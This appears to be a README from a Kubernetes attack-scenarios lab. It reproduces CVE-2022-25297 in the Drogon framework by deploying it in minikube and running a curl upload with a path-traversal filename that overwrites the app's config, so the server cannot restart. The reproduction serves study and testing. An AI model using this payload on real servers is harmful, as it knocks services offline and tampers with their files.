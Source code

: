 ## CVE-2022-25297
Target Application: Drogon \
Used PoCs: 
* https://security.snyk.io/vuln/SNYK-UNMANAGED-DROGONFRAMEWORKDROGON-2407243

### Tactics Used
Initial Access: Application vulnerability 
Impact: Denial of service

### Steps to Reproduce

1- `minikube start` \
2- `kubectl apply -f drogon-deployment.yaml` \
3- Forward port `kubectl port-forward pods/drogon.... 8848:8848` \
4- Run`curl -F "data=@fake_config.json;filename=../../../../../app/config.json" http://0.0.0.0:8848/upload_endpoint` \
5- Server restarts and can't get started. 

### Demo
[scenario-6.webm](https://github.com/HasanYldz/kubernetes-attack-scenarios/assets/56763025/a82ae8b8-fe18-4262-bda6-57bc3d245b1a)
